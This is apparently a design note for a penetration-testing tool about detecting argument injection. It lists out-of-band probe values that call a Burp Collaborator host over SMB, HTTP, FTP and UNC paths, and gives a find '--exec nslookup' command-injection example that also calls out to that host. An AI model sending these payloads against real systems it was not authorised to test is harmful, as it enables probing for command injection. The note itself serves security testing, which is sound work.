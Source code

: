 # Detecting argument injection
Apart from differences in application's response, we might dalso detect argument injection by:
- reference injection- we supply an argument that, if interpreted properly, will ensue a network response (e.g. a DNS lookup, HTTP/FTP/SMB interaction etc) - this can be bruteforced
- command injection through the target-specific argument - we supply an arbitrary command into a command-specific flag - which is our "base" command in SHELLING (doing whatever the setting is, e.g. a lookup or sleep/selfping)  - this is rather hardcoded, e.g. "find / -name <INJECTION>" with injection "a --exec nslookup PAYLOAD_MARK.BURP_COLLAB_DOMAIN".



## Reference injection
In the first approach we have no idea what is the target command we are injecting arguments into. The main assumption is that there are only letters, uppercase letters and digits (the last not likely to take any argument values, though) that can represent short flags in formats:

    COMMAND -FLAG
    COMMAND /FLAG

At this point we do not attempt to bruteforce any full names (long versions of the flags), like:

    COMMAND --FULL_FLAGNAME

Good candidates for values are:

    smb://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    file://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    http://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    ftp://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 

Additionally for win this is worth checking too:

    \\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a

This might as well work with injections like:

    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a<NULLBYTE>
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a<POOTERMINATOR>
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a::COMMENT OUT

whereas neither command nor argument separators are allowed, but we can redirect the outpt to an arbitrary local file (which might be very good too :D). 



## Command inejction
In this case we check for particular flags in particular binaries (assuming that the matching binary is being executed on the server), e.g. --exec in find, -O in wget or /c in some windows commands.


## Syntax
We should still keep in mind quotes in the final expression syntax might make our payload fail, hence we need to make sure we also create and evaluate proper test cases while developing this feature.

This is all experimental.
